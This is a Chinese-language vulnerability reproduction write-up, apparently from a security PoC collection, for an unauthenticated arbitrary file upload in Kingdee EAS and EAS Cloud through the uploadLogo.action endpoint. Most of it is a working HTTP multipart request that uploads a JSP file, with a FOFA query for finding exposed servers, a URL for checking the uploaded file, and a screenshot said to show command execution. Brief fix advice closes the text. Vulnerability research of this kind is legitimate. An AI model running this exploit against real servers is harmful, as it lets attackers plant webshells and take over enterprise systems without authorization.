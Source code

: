 
# 金蝶 EAS 及 EAS Cloud 任意文件上传漏洞复现

### 0x01 产品简介

    金蝶 EAS Cloud 为集团型企业提供功能全面、性能稳定、扩展性强的数字化平台，帮助企业链接外部产业链上下游，实现信息共享、风险共担，优化生态圈资源配置，构筑产业生态的护城河，同时打通企业内部价值链的数据链条，实现数据不落地，管理无断点，支撑“横向到边”财务业务的一体化协同和“纵向到底”集团战略的一体化管控，帮助企业强化核心竞争力。

### 0x02 漏洞概述

   金蝶 EAS 及 EAS Cloud 在 uploadLogo.action 接口处存在文件上传漏洞，未经身份认证的攻击者可以利用文件上传漏洞执行恶意代码、写入后门、从而可能导致服务器受到攻击并被控制。

### 0x03 影响范围

EAS 8.0、EAS 8.1、EAS 8.2、EAS 8.5、EAS Cloud 8.6 私有云、EAS Cloud 8.6 公有云

EAS Cloud 8.6SP1, EAS Cloud 8.8

### 0x04 复现环境

FOFA：app="Kingdee-EAS"

![b5c0afcedce740e6b964d38f72bc200b.png](assets/1700528547-4c793c56658b2fa621606d20ab3f0e55.png)

### 0x05 漏洞复现 

PoC

```http
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=04844569c7ca7d21a3ca115dca477d62

--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="chooseLanguage_top"; filename="chooseLanguage_top"

ab
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="dataCenter"; filename="dataCenter"

ac
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="insId"; filename="insId"


--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="type"; filename="type"

ad
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="upload"; filename="1.jsp"
Content-Type: image/png

<%out.print("test");%>
--04844569c7ca7d21a3ca115dca477d62--
```

![5735d034471e4978bc5f79d9ebe08284.png](assets/1700528547-51dd596eee57610890b15c7f57e436a3.png)PS：响应体会回显上传后的文件名

验证 url

```http
http://your-ip/portal/res/file/upload/回显的文件名.jsp
```

![c7c9e1b16e2a4ddfb6a0926622dfe8b3.png](assets/1700528547-61916312bc23c4ffe598ec070465ccca.png)

 命令执行

![15eb9cab24304bfe9b6883fbf120807c.png](assets/1700528547-9e7a20118e0a7076293ea218322bf4f2.png)

### 0x06 修复建议 

关闭互联网暴露面或接口设置访问控制权限

严格限制和校验上传的文件、限制上传的文件路径

文件上传后不回显上传文件名
